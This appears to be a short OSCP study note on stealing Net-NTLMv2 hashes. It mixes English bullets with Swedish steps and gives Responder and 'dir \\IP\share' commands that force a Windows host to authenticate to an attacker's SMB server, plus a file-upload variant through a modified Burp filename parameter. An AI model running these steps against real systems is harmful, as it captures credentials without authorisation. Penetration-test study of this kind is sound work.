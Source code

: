 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/7-password-attacks/7-net-ntl-mv2-stealing/"}
---
```


- Another way of accessing hashes is by capturing them in the middle of an authentication to a controlled system.
- Hashes are spilled when trying to authenticate using the Net-NTLMv2 protocol instead of Kerberos, which is more secure.
- This could be done by already having RCE and accessing higher privileged hashes, or by forcing the system via some function to authenticate against our controlled machine

----------------

### RCE Net-NTLMv2 Hash Steal:
1. Enumerera användaren (valfritt):
```
net user <user>
```
2. Sätt upp SMB Server med Responder i Kali:
```
sudo responder -I <interface>
```
3. Skicka en förfrågan efter en arbiträr share på SMB-servern från Windows:
```
dir \\192.168.X.X\test
```
4. Win!

----------
### File Upload Net-NTLMv2 Hash Steal:
1. Modifiera Burp Requesten för parametern 'filename' att ladda upp en arbiträr fil från Responder-SMB:n.
2. Win!


